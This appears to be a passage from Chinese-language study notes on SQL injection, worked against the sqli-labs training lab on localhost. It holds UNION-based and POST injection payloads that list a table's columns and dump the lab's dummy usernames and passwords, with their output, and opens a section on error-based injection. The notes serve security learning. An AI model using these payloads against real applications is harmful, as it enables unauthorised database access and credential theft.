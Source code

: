```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users' --+
数据：id,username,password
```

### 查询数据

```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(id,'---',username,'---',password),3 from security.users --+
数据：
1---Dumb---Dumb,
2---Angelina---I-kill-you,
3---Dummy---p@ssword,
4---secure---crappy,
5---stupid---stupidity,
6---superman---genious,
7---batman---mob!le,
8---admin---admin,
9---admin1---admin1,
10---admin2---admin2,
11---admin3---admin3,
12---dhakkan---dumbo,
14---admin4---admin4

# 其他手法
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(id,username,password),3 from users --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(id,0x7e,username,0x7e,password),3 from users --+
```

### POST注入

```sql
# bp数据包
id=1 union select 1,2 &Submit=Submit

# hackbar
id=-1 union select 1,database() &Submit=Submit
id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()) &Submit=Submit
```

## 报错注入

如果WEB应用把SQL注入的报错信息返回到客户端，那么可以通过构造特殊的错误语句并通过返回的错误信息盗取数据。

![image-20241124110949605](./assets/image-20241124110949605.png)
